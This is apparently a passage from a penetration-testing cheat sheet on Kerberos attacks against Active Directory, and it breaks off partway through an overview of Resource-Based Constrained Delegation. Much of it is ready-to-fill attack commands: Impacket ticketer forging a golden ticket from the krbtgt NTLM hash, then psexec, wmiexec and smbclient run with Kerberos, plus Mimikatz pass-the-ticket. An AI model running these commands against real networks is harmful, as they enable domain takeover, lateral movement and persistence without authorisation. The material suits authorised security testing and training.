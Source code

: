 #### **Linux:**
- **Impacket:**
  ```bash
  impacket-ticketer -nthash <krbtgt_NTLM_hash> -domain-sid <domain_SID> -domain <domain> -user <username> -groups <group_id> <username>
  ```
  ```bash
  export KRB5CCNAME=<golden_ticket.ccache>
  impacket-psexec -k -no-pass <target_ip>
  ```

### **6. Miscellaneous Commands**

- **Mimikatz:**
  ```powershell
  kerberos::list          # List Kerberos tickets
  kerberos::ptt <ticket>  # Pass-the-ticket
  ```
  
- **Impacket:**
  ```bash
  impacket-smbclient -k -no-pass <target> # SMB client with Kerberos
  impacket-wmiexec -k -no-pass <target>   # WMI exec with Kerberos
  impacket-psexec -k -no-pass <target>    # PsExec with Kerberos
  ```

This cheat sheet provides a comprehensive overview of the commands and tools used to perform various Kerberos-based attacks on both Windows and Linux environments. These techniques are used for privilege escalation, lateral movement, and domain persistence in penetration testing scenarios.

## RBCD Attacks

### **Resource-Based Constrained Delegation (RBCD) Attack Cheat Sheet**

**Resource-Based Constrained Delegation (RBCD)** is a Kerberos attack technique that allows an attacker to impersonate any user to a service configured for resource-based constrained delegation. This attack can be used for privilege escalation or lateral movement within an Active Directory environment.

---

### **1. Overview of RBCD**

- **What is RBCD?**
  - In a Windows domain, Constrained Delegation (CD) allows services to impersonate users for access to resources on behalf of the user. With **Resource-Based Constrained Delegation (RBCD)**, the resources themselves define which accounts can delegate to them, as opposed to the delegation being configured on the service account.

- **Attack Goal:**
  - The attacker configures a compromised account (or a controlled computer object) to impersonate a target user to a service with RBCD enabled, potentially leading to privilege escalation or lateral movement.

---